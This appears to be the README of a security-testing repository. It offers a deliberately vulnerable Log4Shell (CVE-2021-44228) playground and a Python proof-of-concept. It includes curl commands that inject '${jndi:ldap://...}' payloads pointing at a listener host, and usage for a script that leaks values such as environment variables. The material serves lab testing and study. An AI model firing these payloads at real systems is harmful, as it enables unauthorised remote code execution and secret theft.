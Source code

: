 # log4jpwn

log4j rce test environment. See: <https://www.lunasec.io/docs/blog/log4j-zero-day/>

This repository contains an intentionally vulnerable playground to play with CVE-2021-44228 (aka: log4shell)

Experiments to trigger the vulnerability in various software products mentioned [here](https://github.com/NCSC-NL/log4shell/tree/main/software) can be found in the [vuln-software/](vuln-software/) directory.

## examples

![1](images/image.png)

using the included python poc

![2](images/poc.png)

## build

Either build the jar on your host with `mvn clean compile assembly:single`

Or use `docker` to build an image with `docker build -t log4jpwn .`

## run

The server will log 3 things (which are also the triggers). You don't have to set all 3:

- The `User-Agent` header content
- The request path
- The `pwn` query string parameter

To use:

- Run the container with `docker run --rm -p8080:8080 log4jpwn` (or the jar if you built on your host with `java -jar target/log4jpwn-1.0-SNAPSHOT-jar-with-dependencies.jar`)
- Make a `curl` request with a poisoned `User-Agent` header with your payload. eg `curl -H 'User-Agent: ${jndi:ldap://172.16.182.1:8081/a}' localhost:8080`, where 172.16.182.1 is where my netcat lister is running.

A complete example for all 3 bits that gets logged:

```bash
curl -v -H 'User-Agent: ${jndi:ldap://192.168.0.1:443/a}' 'localhost:8080/${jndi:ldap://192.168.0.1:443/a}/?pwn=$\{jndi:ldap://192.168.0.1:443/a\}'
```

## run - exploit

The python exploit will leak values. By default it will try `${java:version}`, but you can specify anything with the `--leak` flag.

Usage is:

```text
❯ ./pwn.py --help
usage: pwn.py [-h] --target TARGET [--listen-host LISTEN_HOST] [--listen-port LISTEN_PORT] --exploit-host EXPLOIT_HOST [--leak LEAK]

a simple log4j <=2.14 information disclosure poc (ref: https://twitter.com/Black2Fan/status/1470281005038817284)

optional arguments:
  -h, --help            show this help message and exit
  --target TARGET, -t TARGET
                        target uri
  --listen-host LISTEN_HOST
                        exploit server host to listen on (default: 127.0.0.1)
  --listen-port LISTEN_PORT, -lp LISTEN_PORT
                        exploit server port to listen on (default: 8888)
  --exploit-host EXPLOIT_HOST, -eh EXPLOIT_HOST
                        host where (this) exploit server is reachable
  --leak LEAK, -l LEAK  value to leak. see: https://twitter.com/Rayhan0x01/status/1469571563674505217 (default: ${java:version})
```

Example runs:

- `./pwn.py --target http://localhost:8080 --exploit-host 127.0.0.1`
- `./pwn.py --target http://localhost:8080 --exploit-host 127.0.0.1 --leak '${env:SHELL}'`
- `./pwn.py --target http://localhost:8080 --exploit-host 127.0.0.1 --listen-port 5555`
